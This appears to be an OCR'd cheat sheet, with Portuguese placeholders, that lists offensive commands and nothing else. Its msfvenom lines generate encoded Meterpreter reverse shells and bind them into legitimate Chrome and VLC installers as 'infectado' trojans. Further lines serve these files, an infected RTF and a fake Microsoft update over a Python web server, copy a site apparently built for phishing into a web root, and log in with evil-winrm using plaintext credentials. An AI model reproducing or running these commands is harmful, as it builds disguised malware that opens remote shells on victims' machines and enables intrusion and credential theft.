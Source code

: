 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > trojan.exe


python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

sudo cp -r /caminho/para/conectasocial_advanced /var/www/html/

evil-winrm -i 192.168.1.84 -u rsilva -p rsilva2020



